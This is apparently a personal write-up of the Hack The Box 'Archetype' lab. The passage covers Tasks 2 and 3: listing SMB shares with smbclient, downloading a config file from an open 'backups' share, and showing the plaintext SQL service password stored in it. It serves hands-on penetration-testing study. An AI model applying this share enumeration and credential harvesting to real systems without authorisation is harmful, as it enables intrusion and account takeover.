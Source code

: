 Using [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md)  : `smbclient -L` will list shares. Administrative shares end in $ :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ smbclient -L archetype.htb           
Password for [WORKGROUP\mdn0x]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC 
```

The answer is `backups`. 
# Task 3

What is the password identified in the file on the [SMB](../../../../3%20-%20Tags/Hacking%20Concepts/SMB.md) share?

We can download the file with `smbclient //server/share -U username -c 'get remotefile.txt localfile.txt'` :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$    smbclient //archetype.htb/backups  -c ls       
Password for [WORKGROUP\mdn0x]:
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                5056511 blocks of size 4096. 2516342 blocks available

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Archetype]
└─$ cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>             
```

We can see the password here.
# Task 4
